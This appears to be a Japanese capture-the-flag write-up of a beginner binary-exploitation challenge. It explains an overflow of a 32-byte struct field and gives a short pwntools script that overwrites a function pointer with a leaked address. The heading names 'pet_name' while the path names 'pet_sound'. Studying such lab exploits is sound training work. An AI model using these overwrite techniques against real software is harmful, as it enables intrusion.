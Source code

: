 # pet_name

100 Points / 586 Solves

## 調査

```sh
$ file chall
chall: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=b44722880e4bcdd32b041ab7cd46dea9a7e53a6e, for GNU/Linux 3.2.0, not stripped
```

```sh
$ checksec chall
[*] '/home/salt/ctf/writeup/2025/SECCON Beginners CTF 2025/pwn/pet_sound/chall'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

- `read(0, pet_A->sound, 0x32);`があるが、soundに格納できる文字数は32文字のため、18文字分バッファオーバーフローができる

    ```c
    struct Pet {
        void (*speak)(struct Pet *p);
        char sound[32];
    };
    ```

- `speak_flag`関数のアドレスなどの情報が出力されているため、`pet_B->speak`で実行されるアドレスを上書きしてあげれば良い

## 実行

- [solve.py](./solve.py)

```py
#!/usr/bin/env python3
from pwn import *
import re

binary = './chall'
p = process(binary)
# p = remote('localhost', 9090)

p.recvuntil(b"'speak_flag' is at: ")
speak_flag_addr = int(p.recvline().strip(), 16)
print(speak_flag_addr)

p.recvuntil(b"Input a new cry for Pet A > ")
payload = b'A' * (32 + 8)
payload += p64(speak_flag_addr)
p.sendline(payload)
p.interactive()
```

```sh
./solve.py
```

